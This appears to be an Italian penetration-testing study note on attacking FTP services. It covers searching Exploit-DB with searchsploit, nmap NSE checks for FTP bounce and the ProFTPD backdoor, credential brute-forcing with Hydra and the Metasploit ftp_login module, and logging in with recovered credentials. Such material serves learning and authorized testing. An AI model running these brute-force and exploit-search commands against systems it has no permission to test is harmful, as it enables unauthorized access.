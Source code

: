 ## Ricerca Exploit noti
Dopo aver effettuata la scansione del servizio e la sua versione nella fase di Scansione ed Enumerazione, possiamo procedere con la ricerca di exploit noti usando <a href="https://www.exploit-db.com/">Ecploit Database</a> oppure: 
```bash
searchsploit <ftp-versione> 
```
> Se restituise un exploit utilizzabile, copia il path e usa `searchsploit -m <path>`

Verifica anche con degli script nse se il target é vunerabile a certi exploit noti: <br>
- `ftp-bounce` → verifica la vulnerabilità FTP bounce (obsoleta)   
- `ftp-proftpd-backdoor` → verifica exploit in ProFTPD  

---

## Brute force delle credenziali

Per tentare un brute force delle credenziali possiamo usare :
### Hydra
```
hydra -L <usernameList> -P <passwordList> <IP> -t 4 ftp
```

- `-L` specifica la lista di username  
- `-P` la wordlist delle password  
- `-t 4` imposta il numero di thread

Se le credenziali sono corrette, Hydra lo notificherà a schermo.

### Metapsloit
Modulo per brute force:

```
use auxiliary/scanner/ftp/ftp_login
set RHOSTS <IP>
set USERNAME anonymous
run
```

---

## Connessione con credenziali valide

Dopo aver scoperto una coppia `user:pass`, accedi con:

```
ftp <IP>
```

Poi:

```
Name: <username>
Password: <password>
```
Dopo che abbiamo ottenuto una sessione nella macchina target, possiamo passare alla fase di Post Exploitation. 

---

